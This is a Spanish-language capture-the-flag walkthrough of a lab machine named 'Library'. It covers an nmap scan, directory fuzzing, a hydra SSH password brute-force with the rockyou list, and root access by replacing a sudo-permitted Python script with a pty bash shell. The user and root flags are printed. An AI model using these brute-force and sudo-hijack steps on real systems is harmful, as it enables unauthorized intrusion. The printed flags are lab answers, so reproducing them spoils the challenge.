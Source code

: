 # Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.

![Escaneo de puertos](images/Pasted%20image%20250221170150.png)

## Fuzzing web

Accedemos al sitio web. 

![[Pasted image 20250221170416.png]]

Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.

![[Pasted image 20250221170508.png]]

El único interesante puede ser el directorio de  `/images/`

![[Pasted image 20250221171240.png]]

También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.

![[Pasted image 20250221171339.png]]

Que puede ser `meliodas`por como vemos en la página anterior.

![[Pasted image 20250221171459.png]]

Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.

![[Pasted image 20250221171938.png]]

```
ssh meliodas@10.10.31.106
```

![[Pasted image 20250221172044.png]]

Obtenemos la flag de`user.txt`.

![[Pasted image 20250221172143.png]]

```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```

![[Pasted image 20250221172307.png]]

Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.

![[Pasted image 20250221172514.png]]

Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```

![[Pasted image 20250221172815.png]]

Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```
![[Pasted image 20250221172922.png]]

Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.

![[Pasted image 20250221173014.png]]

```
e8c8c6c256c35515d1d344ee0488c617
```












